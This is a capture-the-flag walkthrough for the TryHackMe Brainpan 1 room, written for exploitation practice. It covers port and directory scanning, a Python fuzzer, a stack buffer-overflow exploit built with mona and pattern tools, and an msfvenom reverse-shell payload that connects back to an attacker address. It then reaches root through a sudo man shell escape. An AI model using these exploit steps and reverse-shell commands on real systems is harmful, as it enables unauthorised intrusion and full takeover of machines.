


# [Brainpan 1](https://tryhackme.com/r/room/brainpan)


[Brainpan 1](https://tryhackme.com/r/room/brainpan) is listed as an hard room. Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster

## Task 1 - Deploy and compromise the machine

Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 

All credit to [superkojiman](https://www.vulnhub.com/entry/brainpan-1,51/) - This machine is used here with the explicit permission of the creator <3

### Answer the questions below

* Deploy the machine.

	

* Gain initial access

	* Scan open port with **Nmap**
	
		```
		nmap $IP -A -p- -oN nmap-scan -Pn -T4
		```

		

		We found 2 open port, 9999 as abyss service and 10000 as http service.

	* Connect to port 9999
	
		```
		nc $IP 9999
		```

		

		The application need password to enter

	* Opening HTTP service
	
		

	* Scan HTTP directori with **gobuster**
	
		```
		gobuster dir -u http://$IP:10000 -w /usr/share/wordlists/dirb/common.txt -t 30 | tee gobuster-scan
		```

		

		We found directory **/bin**

	* Access directory **/bin** 
	
		

		We found application **brainpan.exe**, download and copy to our Windows VM machine.

	* Run **Immunity Debbuger** and open file **brainpan.exe**. Press **F9** to run program on **Immunity Debugger**
	
		

	* Set `mona` working folder

		```
		!mona config -set workingfolder D:\Project\mona\%p
		```

		

	* Fuzzing the application with `fuzzer.py`
	
		```
		#!/usr/bin/python3

		import socket, time, sys
	
		ip = "10.37.1.149"	# Change to IP Host
		port = 9999		# Change to Port Host
		timeout = 5
	
		string = "A" * 100
	
		print("##### Starting Fuzzing #####")
		while True:
	  	try:
	    	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
	      	s.settimeout(timeout)
	      	s.connect((ip, port))
	      	s.recv(1024)
	      	print("Fuzzing with {} bytes".format(len(string)))
	      	s.send(bytes(string + "\r\n", "latin-1"))
	      	s.recv(1024)
	  	except:
	    	print("##### End of Fuzzing #####")
	    	print("Fuzzing crashed at {} bytes".format(len(string)))
	    	sys.exit(0)
	  	string += 100 * "A"
	  	time.sleep(1)
		```

		

		We got program crashed at 600 bytes

		

		EIP value 41414141, it means our string "A" overflow to the program

	* Create file `exploit.py`
	
		```
		#!/usr/share/python

		import socket

		ip = '10.37.1.149'		# Change to IP Host
		port = 9999			# Change to Port Host

		offset = 0
		overflow = "A" * offset
		retn = ""
		padding = ""
		payload = ""

		buffer = overflow + retn + padding + payload

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
			s.connect((ip, port))
			#s.recv(1024)
			print("Sending evil buffer...")
			s.send(bytes(buffer + "\r\n", "latin-1"))
			print("Done!")
		except:
			print("Could not connect.")
		```

		

	* Create pattern with adding 300 bytes from crached program (600 + 300 = 800)
	
		```
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
		```

		

	* Copy our pattern to payload variable on `exploit.py`
		
		

	* On **Immunity Debugger** press `ctrl+F2` to restart application and click `OK`. Press F2 to run application again. Run `exploit.py` script
	
		

		

		We got **EIP** value **35724134**

	* Find offset from EIP value
	
		```
		/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
		```

		

		We got offset value **524**

	* Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`) and run the script

		```
		for x in range(1, 256):
			print("\\x" + "{:02x}".format(x), end='')
		print()
    	```
	
    	

    * Update `exploit.py` script, set the offset variable value, set the payload variable to generated string and set the retn variable to "BBBB"

		

	* Restart **Immunity Debugger** and generate a bytearray using mona, and exclude the null byte **\x00**

		```
		!mona bytearray -b "\x00"
		```
		
		

	* Run `exploit.py`

		
	
		
	
		We got ESP value = **005FF910**

	* Compare bytearray with ESP to get badchar

		```
		!mona compare -f D:\Project\mona\brainpan\bytearray.bin -a 005FF910
		```
	
		
	
		We got badchar **00** => **\x00**

	* Finding a jump code

		```
		!mona jmp -r esp -cpb "\x00"
		```
	
		
	
		Note the address **311712F3** => **31 17 12 F3** => **\xf3\x12\x17\x31** written backwards since the system is little endian
	
	* Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously

		```
		msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.127.223 LPORT=4444 -b "\x00" -f c
		```
	
		

	* Update `exploit.py` script and set the payload variable to the string of generated C code, set retn variable to jump address also add variable padding to  **"\x90" * 16**`** and change IP to target machine THM

		

	* Setup listener on our attacker machine 
	
		

	* Run `exploit.py` and get the shell
	
		

	**WE GOT INITIAL ACCESS**

* Escalate your privileges to root

	* First step is to upgrade our shell
	
		```
		python -c 'import pty; pty.spawn("/bin/sh")'
		```

		

	* Checking sudo permission

		

		The user could run **/home/anansi/bin/anansi_util** without password to escalate privilege

	* Attempt to run the script
	
		```
		sudo /home/anansi/bin/anansi_util
		```

		

		We got info that we can run the script with 3 action

	* If we look at GTFObins, we have SUDO exploit for man
	
		
	
		```
		sudo /home/anansi/bin/anansi_util manual man
		!/bin/bash
		```

		

	**NOW WE ARE ROOT**